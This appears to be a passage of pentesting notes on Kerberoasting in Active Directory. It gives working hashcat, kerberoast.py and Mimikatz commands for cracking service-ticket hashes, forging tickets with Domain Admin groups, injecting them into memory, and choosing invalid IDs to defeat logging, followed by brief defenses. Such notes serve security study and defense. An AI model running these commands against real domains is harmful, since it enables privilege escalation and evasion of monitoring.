     hashcat64.exe -m 13100 "C:\Hash1.txt" C:\Rocktastic12a --outfile="C:\OutputHash1.txt"`
    ```

#### Step 5 - Rewrite Service Tickets & RAM Injection

- Kerberos tickets are signed with the NTLM hash of the password. 
- If the ticket hash has been cracked then it is possible to  rewrite the ticket with Kerberoast python script.
- Allow: 
  - Impersonate any domain user when the service is going to be accessed.
  - Privilege escalation is also possible as the user can be added into an elevated group such as Domain Admins. 
    ```powershell
    python kerberoast.py -p Password123 -r PENTESTLAB_001.kirbi -w PENTESTLAB.kirbi -u 500
    python kerberoast.py -p Password123 -r PENTESTLAB_001.kirbi -w PENTESTLAB.kirbi -g 512
    ```
- Also fake account. Use Mimikatz to generate ticket (change RID of the account to 1106):
    ```
    kerberos::golden
    /domain:lab.local
    /sid:<sid>
    /groups:123,124,125
    /target:target.local
    /service:MSSQLSvc
    /ticket:target.local.kirbi
    /rc4:<service's hash>
    /ppt
    /id:1106
    /user:tm
    ```
  - `/ppt` will directly inject the fake account into memory.
  - `/id` and `/user` can be invalid values, so that logs will be useless 
  - `/groups` can be altered to add user to domain-admin
- The new ticket can be injected back into the memory with 
    ```
    kerberos::ptt PENTESTLAB.kirbi
    ```

#### Defense 

- Use `*-ADServiceAccount` cmdlet to create service accounts
- Pick really random, good passwords (25+ chars )
- Monitor DC for bursts of Service Ticket requests (Event ID 4769)
- Force services to verify PAC
	- Doesn't prevent cracking
	- Prevent writing
	- Can impact performance
  
### Pass the key
### Pass the ticket

- The process of forging a session key and presenting that forgery to the resource as credentials
